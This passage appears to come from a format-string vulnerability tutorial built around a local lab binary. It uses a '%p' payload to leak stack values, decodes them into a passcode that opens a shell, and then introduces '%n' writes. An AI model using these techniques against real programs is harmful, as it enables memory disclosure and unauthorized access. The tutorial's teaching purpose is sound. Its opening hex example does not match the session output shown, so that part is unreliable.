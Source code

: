 The hexadecimal equivalent of "0fcmGWPSqSTPuYeW4TylxGdv42GaBeK27meD6rTm9m2sBUE5l" in ASCII is `0x30 0x66 0x63 0x6d 0x47 0x57 0x50 0x53 0x71 0x53 0x54 0x50 0x75 0x59 0x65 0x57 0x34 0x54 0x79 0x6c 0x78 0x47 0x64 0x76 0x34 0x32 0x47 0x61 0x42 0x65 0x4b 0x32 0x37 0x6d 0x65 0x44 0x36 0x72 0x54 0x6d 0x39 0x6d 0x32 0x73 0x42 0x55 0x45 0x35 0x6c`. In the output, we can see that the eighth value printed off from the stack is `0x535057476d636630`, which is the first eight bytes of the passcode written backwards. The ninth value printed out, `0x5765597550545371`, contains the next eight bytes of the passcode written backwards, and each value that contains another eight bytes of the passcode written backwards (except for the last value, which only contains one byte of the passcode).

```sh
$ ./mem_leak
Enter a string: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x557b66c656b1.(nil).0x557b66c656de.0x7ffe234e6680.0x7f7c53430be0.0x7ffe234e68a8.0x100000000.0x447937784d595146.0x705275464a733667.0x3954534d516f4852.0x6e49596a6e774370.0x37616c625a78656f.0x494f57316c464969.0x63.(nil).
Enter the passcode:
```

Let's go through an example of how we would figure out the passcode if we did not know it beforehand. The first thing that we'll have to do is send fifteen "%p" format specifiers in order to print out 15 values from the stack (about 120 bytes). Then we would have to start at the eighth value, convert the bytes into their ASCII equivalents, and switch the order of the bytes. Here is the step-by-step process of doing this for the bytes that are shown above:

```sh
0x447937784d595146 -> Dy7xMYQF -> FQYMx7yD
0x705275464a733667 -> pRuFJs6g -> g6sJFuRp
0x3954534d516f4852 -> 9TSMQoHR -> RHoQMST9
0x6e49596a6e774370 -> nIYjnwCp -> pCwnjYIn
0x37616c625a78656f -> 7albZxeo -> oexZbla7
0x494f57316c464969 -> IOW1lFIi -> iIFl1WOI
0x0000000000000063 -> c        -> c
```

Putting this together gives us the string `FQYMx7yDg6sJFuRpRHoQMST9pCwnjYInoexZbla7iIFl1WOIc`. Using this string as the passcode will pop open a shell.

```sh
$ ./mem_leak
Enter a string: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x557b66c656b1.(nil).0x557b66c656de.0x7ffe234e6680.0x7f7c53430be0.0x7ffe234e68a8.0x100000000.0x447937784d595146.0x705275464a733667.0x3954534d516f4852.0x6e49596a6e774370.0x37616c625a78656f.0x494f57316c464969.0x63.(nil).
Enter the passcode: FQYMx7yDg6sJFuRpRHoQMST9pCwnjYInoexZbla7iIFl1WOIc
$ ls
format_example2.c  format_example.c  mem_leak  mem_leak.c  README.md
$ echo "Format Strings Rock!"
Format Strings Rock!
$
```

## Modifying Variables

Format string vulnerabilities can be used for more than just leaking data. They can also be used to modify data as well. If a pointer is located on the stack, then you can use the "%n" format specifier to dereference that pointer and write data to it. The following code snippet contains such a situation.
